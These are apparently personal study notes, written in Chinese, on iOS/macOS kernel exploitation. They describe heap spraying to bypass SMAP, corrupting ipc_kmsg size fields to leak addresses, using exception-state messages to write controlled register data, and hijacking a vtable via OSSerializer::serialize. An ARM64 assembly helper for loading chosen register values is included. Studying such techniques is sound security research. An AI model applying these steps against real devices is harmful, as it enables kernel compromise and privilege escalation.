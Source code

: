 

# 绕过smap的堆喷

## 如果申请大小在2048到4096，那么可以一次申请一页，因此可以绕过页内随机化。

## 另外kmsg是这次利用的主题 

struct ipc_kmsg {
  mach_msg_size_t ikm_size;
  struct ipc_kmsg * ikm_next;
  struct ipc_kmsg * ikm_prev;
  mach_msg_header_t * ikm_header;
  ipc_port_t ikm_prealloc;
  ipc_port_t ikm_voucher;
  mach_msg_priority_t ikm_qos;
  mach_msg_priority_t ikm_qos_override
  struct ipc_importance_elem * ikm_importance;
  queue_chain_t ikm_inheritance;
};

通过更改 kmsg的size来进行信息泄漏

传递一个exception_mask 的EXC_MASK_ALL，EXCEPTION_STATE 的行为和ARM_THREAD_STATE64 为new_flavor 意味着内核将发送exception_raise_state 消息，我们指定每当指定线程错误的异常端口。该消息将包含所有ARM64通用目标寄存器的状态，这就是我们将用于从ipc_kmsg 缓冲区末尾写入受控数据的内容！



### 编写

在我们的iOS XCode项目中，我们可以添加一个新的程序集文件并定义一个函数load_regs_and_crash ：

.globl _load_regs_and_crash
.align 2
_load_regs_and_crash：
mov x30，x0
ldp x0，x1，[x30,0]
ldp x2，x3，[x30,0x10]
ldp x4，x5，[x30,0x20]
ldp x6，x7，[x30,0x30]
ldp x8，x9，[x30,0x40]
ldp x10，x11，[x30,0x50]
ldp x12，x13，[x30,0x60]
ldp x14，x15，[x30,0x70]
ldp x16，x17，[x30,0x80]
ldp x18，x19，[x30,0x90]
ldp x20，x21，[x30,0xa0]
ldp x22，x23，[x30,0xb0]
ldp x24，x25，[x30,0xc0]
ldp x26，x27，[x30,0xd0]
ldp x28，x29，[x30,0xe0]
brk 0
.align 3


信息泄漏出堆地址，然后释放第二个msg，更改为OSSerializer :: serialize

泄漏内核地址，更改虚表指针



mac上大小在4096里面的类IOBluetoothHCIRequest

调用IOBluetoothHCIController
触发host的构造

蓝牙接口https://github.com/phracker/MacOSX-SDKs/blob/master/MacOSX10.5.sdk/System/Library/Frameworks/Kernel.framework/Versions/A/Headers/IOKit/bluetooth/IOBluetoothHCIRequest.h

https://googleprojectzero.blogspot.com/2017/04/exception-oriented-exploitation-on-ios.html



